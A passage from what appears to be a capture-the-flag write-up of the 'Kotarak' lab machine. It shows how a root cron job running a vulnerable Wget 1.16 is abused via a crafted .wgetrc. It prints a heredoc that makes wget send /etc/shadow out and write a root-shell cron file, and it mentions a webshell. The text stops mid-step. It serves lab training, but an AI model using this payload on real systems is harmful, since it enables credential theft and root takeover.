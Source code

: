 ![](/Linux/Linux-Hard/Kotarak/Screenshots/ls.png)

In fact, not only can I list the files, but read both `flag.txt` and `app.log`. `flag.txt` is a hint to continue looking:

![](/Linux/Linux-Hard/Kotarak/Screenshots/applog.png)

The log shows that Wget verson 1.16 is run every two minutes . Looking at the network configuration reveals that the request came from the local machine, so it is safe to assume that Wget is being run as root.

Using `authbind`, it is possible to run the exploit script on the target and listen on port 80 

There are many ways to exploit this vulnerability. I could drop a `.bashrc` file and wait for someone to start a shell. If I thought perhaps the `wget` was being run from a web directory, I could look at uploading a webshell.

There’s a proof of concept for this CVE on [exploitdb](https://www.exploit-db.com/exploits/40064). It’s strategy is to write a Wget Startup file. Based on the [priority](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Location.html) `wget` looks for these files, as long as there’s nothing in the `/usr/local/etc/wgetrc` and the env variable `WGETRC` isn’t set, it will try to load from `$HOME/.wgetrc`.

This fill will set arguments for `wget` that aren’t passed on the command line. The POC uses two of these with the following `.wgetrc` file:

```sh
cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_
```

![](/Linux/Linux-Hard/Kotarak/Screenshots/server.png)

And start a Python FTP server:
